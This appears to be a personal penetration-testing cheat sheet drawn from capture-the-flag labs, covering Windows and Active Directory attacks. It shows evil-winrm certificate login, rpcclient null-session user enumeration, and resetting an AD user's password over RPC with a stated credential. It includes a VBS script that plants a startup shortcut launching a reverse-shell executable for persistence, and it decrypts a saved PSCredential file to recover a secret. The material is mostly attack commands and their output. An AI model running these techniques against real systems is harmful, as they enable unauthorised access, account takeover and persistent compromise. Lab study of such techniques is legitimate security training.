 ## evil-winrm 

evil-winrm -i 10.10.11.152 -k key.pem -c pfx.crt -u -p -S // priv and pub key login

## Windows cmds

PS C:\Logs\WEBDB> type * | Select-String TEIGNTON \\ grep words

## rpcclient

RPC - TCP 445

rpcclient -U "" -N 10.10.10.161 // Null auth

I can get a list of users with "enumdomusers", "enumdomgroups" for groups;

querydispinfo

rpcclient 10.10.142.109 -U nik

### reset ad user passwd through rpclient

    rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.10.10.192 -c 'setuserinfo2 audit2020 23 "0xarun$"'

### To create starup shortcut vbs script in windows
```
:\PrivEsc>type CreateShortcut.vbs
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save

C:\PrivEsc>cscript C:\PrivEsc\CreateShortcut.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
```

### powershell xml open

```bash
*Evil-WinRM* PS C:\Users\lvetrova> cat lvetrova.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">Your Flag is here =&gt;</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb010000009db56a0543f441469fc81aadb02945d20000000002000000000003660000c000000010000000069a026f82c590fa867556fe4495ca870000000004800000a0000000100000003b5bf64299ad06afde3fc9d6efe72d35500000002828ad79f53f3f38ceb3d8a8c41179a54dc94cab7b17ba52d0b9fc62dfd4a205f2bba2688e8e67e5cbc6d6584496d107b4307469b95eb3fdfd855abe27334a5fe32a8b35a3a0b6424081e14dc387902414000000e6e36273726b3c093bbbb4e976392a874772576d</SS>
    </Props>
  </Obj>
</Objs>
*Evil-WinRM* PS C:\Users\lvetrova> $Credential = Import-Clixml -Path ".\lvetrova.xml"
*Evil-WinRM* PS C:\Users\lvetrova> $Credential.GetNetworkCredential().password
THM{694362e877adef0d85a92e6d17551fe4}

```

